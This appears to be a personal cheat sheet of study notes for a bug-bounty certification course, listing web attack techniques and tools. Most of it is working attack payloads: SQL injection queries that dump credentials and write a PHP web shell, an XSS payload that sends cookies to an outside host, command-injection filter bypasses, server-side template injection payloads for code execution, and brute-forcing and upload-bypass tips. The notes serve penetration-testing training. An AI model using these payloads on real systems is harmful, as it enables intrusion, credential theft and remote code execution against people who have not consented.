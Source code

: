# CBBH
Stuff for CBBH


  JavaScript Deobsfucation - Tools
    
    https://beautifier.io/
    http://www.jsnice.org/


  Intro to MySQL

    Connect to database
    sudo service mysql start
    
    mysql -h 94.237.62.195 -P 39097 -u root --password
    -h : for host/target
    -P : for custom port
    -u : for user
    --password : for password
  
    Find stuff with queries
    
    select * from employees where first_name LIKE 'Bar%' AND hire_date='1990-01-01';
    LIKE : You may use when searching for a substring in string (i.e Bar = Barton).
    % : Starts with (used in mysql)

    ')+or+id=4--+-

    Database enumeration

    #Get it without line breaking
    '+union+select+1,group_concat(table_name),3,4+from+information_schema.tables--+-

    #Get it nicier
    '+union+select+1,table_schema,table_name,4,5+from+information_schema.tables--+-
    
    #Writing files
    '+union+select+null,null,null,"<?php+system($_REQUEST['cmd']);?>"+into+outfile+"/var/www/html/blah2.php"--+-

    #Get data from whithin another database
    '+union+select+1,username,password,4,5+from+backup.admin_bk--+-

  Cross-Site Scripting

    #When creating a phishing form the submit button has to be just like so
    <input type="submit" name="submit" value="login">

    #That's a way to remove unanted html stuff from the page [gotta wrap it between script tags]
    document.getElementById("id-here").remove();


    #To stealk cookies
    "><img src=x onerror=this.src="http://ip/?c"+document.cookie;>

  SQLmap

    ' , ; -- /* */
    
    ##TIP: IF YOU CAN FIND BOUNDARIES, TRY TO COUNT THE NUMBER OF COLUMNS AND SPECIFY IT IN SQLMAP
    
    #Techniques and their meaning
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries

    #To parse erros and see the response
    --parse-errors

    #Level/Risk
    Risk: Might cause database entry loss or DoS (Denial of Service) [1-3]
    Level: Extends vectors and boundaries (i.e the lower the expectancy, the higher the level) [1-5]

    #To display the payloads
    -v 3 [verbose level 3]

    #To provide a certain number of cols
    --union-cols=1337

    #Boundaries
    Once you've found a specific prefix, do not forget to add the apostrophe ' to it
    --prefix="<change-here>"
    --suffix="<change-here>"

    #Search function
    --search 
    -C: column
    -T: table
    -D: database

    #Handling csrf token
    ##NOTE: THE PROPER WAY TO HANDLE THIS KINDA TOKEN IS BY, PASSING THEM WHEREVER THEY APPEAR (e.g cookie/body) AND USE THE FLAG --csrf-token WITH THE NAME OF THE PARAM THAT HOLDS THE TOKEN
  
  Command Injection

    ##NOTE: If slash or backslash is blacklisted, you may use environment variable that have these chars
    <LINUX>
    ${PATH:0:1} - Uses the slash at the $PATH variable
    ${LS_COLORS:10:1} - Uses tha semi-colon at the $LS_COLORS variable

    <WINDOWS>
    echo %HOMEPATH:~6,-11%

    #You can actaully use environment variables inside of bash brace expension
    {ls,${PATH:0:1}home}
  
    #Blacklisted commands doesn't seem to work inside {}
    #This one is nicier
    bash<<<$(base64%09-d<<<$payload-here$)

    
  Injection Operator | Injection Character	| URL-Encoded Character| Executed Command
  |---|---|---|---|
  |Semicolon | ; |	%3b	| Both
  |New Line |	\\n | %0a | Both
  |Background | & | %26 | Both (second output generally shown first)
  |Pipe |	\| 	| %7c | Both (only second output is shown)
  |AND |	&& | %26%26 | Both (only if first succeeds)
  |OR | \|\|	| %7c%7c	| Second (only if first fails)
  |Sub-Shell |	\`\` | %60%60 |	Both (Linux-only)
  |Sub-Shell | $() | %24%28%29 | Both (Linux-only)

  Server-Side Attacks

    #SSI cheat sheet

    // Date
    <!--#echo var="DATE_LOCAL" -->
    
    // Modification date of a file
    <!--#flastmod file="index.html" -->
    
    // CGI Program results
    <!--#include virtual="/cgi-bin/counter.pl" -->
    
    // Including a footer
    <!--#include virtual="/footer.html" -->
    
    // Executing commands
    <!--#exec cmd="ls" -->
    
    // Setting variables
    <!--#set var="name" value="Rich" -->
    
    // Including virtual files (same directory)
    <!--#include virtual="file_to_include.html" -->
    
    // Including files (same directory)
    <!--#include file="file_to_include.html" -->
    
    // Print all variables
    <!--#printenv -->

    #SSTI
    
    Cobalt SSTI payload - ${{<%[%'"}}%\.
    
    Tornado RCE
    {% import os %}{{ os.popen("id").read() }}

    Twig RCE
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("env")}}

    #Jinja1 RCE
    {{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}

  LOGIN BRUTE FORCING

    #Some hydra notes
    -u : by default Hydra checks all passwords for one login and then tries the next login. This option loops around the passwords, so the first password is tried on all logins,  then
         the next password.
    -f : exit after the first found login/password pair

    http-get : For loging get based
    http-post-form : For loging post based (Ex.: /login.php:username=^USER^&password=^PASS^:F=<form name='login')

    # Custom stuff
    Custom password wordlist - https://github.com/Mebus/cupp
    Custom username wordlist - git clone https://github.com/urbanadventurer/username-anarchy.git


  UPLOAD ATTACK

    #Web content-type
    wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt

    #When trying to read a local file with xxe attack in scg, if `file:///` doesn't work right away, try php filter `php://filter/convert.base64-encode/resource=index.php`

    #When trying to bypass extension filter, this method `blah.php.jpg` is valid one, but it doens't work try `blah.jpg.php`

    
